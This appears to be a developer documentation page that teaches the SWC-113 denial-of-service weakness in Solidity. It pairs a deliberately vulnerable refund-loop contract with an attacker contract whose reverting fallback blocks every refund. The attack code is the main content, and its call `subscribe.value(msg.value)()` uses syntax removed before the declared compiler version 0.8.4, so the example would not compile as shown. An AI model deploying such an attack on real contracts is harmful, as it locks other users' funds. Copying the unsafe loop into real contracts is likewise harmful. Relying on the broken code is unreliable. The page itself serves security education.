 DoS Attack Contract
===================

This set of contracts shows how a contract may be susceptible to a denial of service attack by an unexpected revert ([SWC-113](https://swcregistry.io/docs/SWC-113){target=\_blank}).

The `VulnerableContract` loops over the subscribers array, making a transfer to each address. This is dangerous because when the `refundFees()` function is called and the `VulnerableContract` attempts to send funds to the `MaliciousContract`, the `MaliciousContract` fallback function is called, which stops execution and reverts. This transaction will never succeed and `refundFees()` will never successfully execute, preventing any subscribers from getting their subscription fee back.

```
pragma solidity 0.8.4;

// Example DenialOfService Attack  
contract VulnerableContract {    
  address owner = msg.sender;    
  address payable[] public subscribers;    
  uint FEE_COST = 1 ether;          
  
  function subscribe() public payable {        
    require(msg.value == FEE_COST, "Insufficient msg.value");        
    subscribers.push(msg.sender);    
  }          
  
  function refundFees() public {        
    require(msg.sender == owner, "msg.sender should be owner");        
    for(uint i = subscribers.length; i > 0; i--) {            
      subscribers[i - 1].transfer(FEE_COST);            
      subscribers.pop();        
    }
  }          
  
  function getBalance() view public returns(uint) {        
    return address(this).balance;    
  }          
  
  // Auxiliar function for demo. It wouldn't be present in a vulnerable contract    
  function removeLastSubscriber() public {        
    subscribers.pop();    
  }
  
}  
  
contract MaliciousContract {    
  VulnerableContract vulnerableContract = VulnerableContract(0x5E72914535f202659083Db3a02C984188Fa26e9f);          
  
  function subscribe() public payable {        
    vulnerableContract.subscribe.value(msg.value)();       
  }          
  
  fallback() external payable {        
    require(false);    
  }
}
```
 
